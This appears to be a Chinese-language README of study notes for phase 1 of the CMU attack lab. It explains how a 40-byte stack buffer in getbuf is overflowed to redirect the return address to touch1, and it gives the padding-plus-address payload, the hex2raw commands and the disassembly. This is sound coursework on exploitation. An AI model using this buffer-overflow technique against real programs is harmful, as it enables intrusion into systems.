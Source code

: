 ## Description
- 分为两种attack: 1)Code Injection Attacks 2)Return-Oriented Programming
- 由于executable program的执行逻辑是要上传到CMU评分系统，我们自己本地做的时候要在command line 填入 -q，否则会有authetication error
- gdb -tui ctarget / run -q


## phase_1
- code injection attack, 将touch_1函数的地址(0x4017c0)覆盖掉getbuf调用后返回的return value
- sub $0x28, %rsp 在栈上开辟了40bytes的空间，return value 就存储在 %rsp + 0x28为起始地址的位置
- 所以我么只需要利用hex2raw生成40bytes的dummy string + 函数touch_1的little-endian形式的地址即可
- 答案: input.txt 中 40 *aa c0 17 40, ./hex2raw < input.txt > stage1.txt
- ./target < stage1.txt 即可通过

![](touch1.png)

```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```
